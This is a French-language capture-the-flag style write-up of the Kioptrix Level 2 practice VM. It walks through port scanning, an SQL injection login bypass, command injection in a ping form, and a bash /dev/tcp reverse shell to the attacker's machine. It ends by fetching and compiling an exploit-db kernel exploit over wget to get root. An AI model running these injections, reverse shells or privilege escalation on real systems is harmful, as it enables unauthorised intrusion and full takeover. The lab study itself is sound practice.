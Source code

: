 ```
---
layout: post
title: Writeup Kiopitrix 1.1 , Lvl 2
---
```

![pwn]({{ site.baseurl }}/images/kiopitrix-1-1/pwn.jpeg){:class="img-responsive"}

# Kiopitrix LVL 2 

Comme toujours, la première étape d'une analyse de vulnérabilités consiste à faire un scan des ports de la machine que l'on souhaite attaquer :

```
Nmap scan report for 192.168.122.184
Host is up (0.018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
```
Ici on voit que plusieurs ports sont ouverts, débutons par une analyse rapide de ceux qui sont les plus intéressants.

Sur le port 80 tourne une application web qui demande un login et un mot de passe :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img1.png){:class="img-responsive"}

On sait grâce au scan que tourne une base de données sur le serveur, tentons alors une injection SQL en plaçant `'='` dans chacun des champs :

> Voici un lien qui m'a servis de référence : http://www.bases-hacking.org/sql-injection.html

![]({{ site.baseurl }}/images/kiopitrix-1-1/img2.png){:class="img-responsive"}

Comme on le voit, une redirection immédiate a  lieu vers ce qui semble être une application permettant de faire un ping vers une IP.

Ping étant une commande bash, il doit forcément y avoir un moyen de passer des commandes la dedans :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img3.png){:class="img-responsive"}

Ici, on a réussi à injecter une commande en écrivant `;cat index.php` dans le formulaire.
Le **;** permet en bash d'exécuter une commande à la suite de l'autre sous la forme d'une séquence.

Vérifions sous quel utilisateur nous exécutons les commandes et quel est la version de l'OS du serveur :
![]({{ site.baseurl }}/images/kiopitrix-1-1/img4.png){:class="img-responsive"}

Nous sommes donc ici identifié en tant qu'apache qui est l'utilisateur du serveur web du même nom. Pour rappel nous devons ici obtenir les droits root sur la machine pour valider l'exercice. 

On voit ici que la version du noyaux est assez ancienne, essayons de trouver une faille dans ce dernier :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img5.png){:class="img-responsive"}


Reste maintenant à trouver un moyen d'exécuter un shell interactif pour lancer l'exploit.
Pour se faire on va exploiter un [reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Notre choix va se porter ici sur un reverse shell bash qui ressemble à ceci :
```
bash -i >& /dev/tcp/IP_To_Connect/Port_To_Connect 0>&1
```
Du coté de notre machine on va simplement lancer **netcat** en mode interactif :

```
sudo nc -lvp 666
```
Sur l'application web, on lance le reverse shell :

```
; bash -i >& /dev/tcp/192.168.122.1/666  0>&1
```
Voici ce que l'on obtiens :
```
Listening on [0.0.0.0] (family 0, port 666)
Connection from [192.168.122.184] port 666 [tcp/*] accepted (family 2, sport 32813)
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$ 
```
On a donc un shell exécuté avec l'user **apache**, utilisons notre exploit :

Sur notre machine on va utiliser un serveur web basique en python qui atteint les fichiers du répertoire courant (il est disponible par défaut):
```
wget https://www.exploit-db.com/download/9542.c
sudo python -m SimpleHTTPServer 80
```
Côté serveur on va faire récupérer et compiler l'exploit avant de l'exécuter:

```
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.122.1/9542.c
--22:42:29--  http://192.168.122.1/9542.c
           => `9542.c.1'
Connecting to 192.168.122.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,674 (2.6K) [text/plain]
    0K ..                                                    100%   42.50 MB/s
22:42:29 (42.50 MB/s) - `9542.c.1' saved [2674/2674]
bash-3.00$ gcc -o exp 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./exp
sh: no job control in this shell
sh-3.00# id 
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 
```
Bingo ! Nous sommes root sur la machine !

## Conclusion : 

Pour conclure, on peut dire que cette machine virtuelle nous met en situation réaliste de test d'intrusion. Les failles sont certes éxagerées de par l'ancienneté de l'OS et de ses applicatifs mais on prend en main un workflow de test d'intrusion réaliste. 

Il existe certainement d'autres failles sur cette machine virtuelle, si je les trouve j'en ferais part ici. 
